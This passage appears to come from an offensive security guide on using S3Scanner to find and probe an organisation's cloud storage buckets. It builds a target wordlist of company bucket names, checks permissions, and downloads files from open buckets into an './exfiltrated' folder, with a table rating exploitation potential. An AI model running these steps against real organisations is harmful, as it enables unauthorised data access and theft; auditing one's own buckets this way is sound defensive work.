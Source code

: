 ##### Basic Usage

```bash
# Scan a single bucket
python s3scanner.py --bucket company-backups

# Scan multiple buckets from a file
python s3scanner.py --bucket-list buckets.txt

# Generate a list of potential buckets
python s3scanner.py --gen-names company names.txt
```

##### Discovery Techniques

When targeting a specific organization, focus on likely bucket names:

```bash
# Create a wordlist of potential bucket names
cat > target-buckets.txt << EOF
company-name-prod
company-name-dev
company-name-test
company-name-staging
company-name-data
company-name-backup
company-name-archive
company-name-media
company-name-static
company-name-assets
EOF

# Scan the generated list
python s3scanner.py --bucket-list target-buckets.txt --out results.txt
```

##### Access Testing and Exploitation

Once potential buckets are identified, test their accessibility:

```bash
# Check permissions on discovered buckets
python s3scanner.py --bucket-list discovered.txt --check-perms --out permissions.txt

# Download files from accessible buckets
python s3scanner.py --bucket-list discovered.txt --download --out-dir ./exfiltrated
```

S3Scanner uses the following flags to indicate bucket permissions:

| Flag | Meaning | Exploitation Potential |
|------|---------|------------------------|
| READ | Public read access | Data exposure |
| WRITE | Public write access | Data tampering, malware hosting |
| EXIST | Bucket exists but access denied | Targeted brute force |
| ERROR | Error occurred in testing | Requires manual investigation |

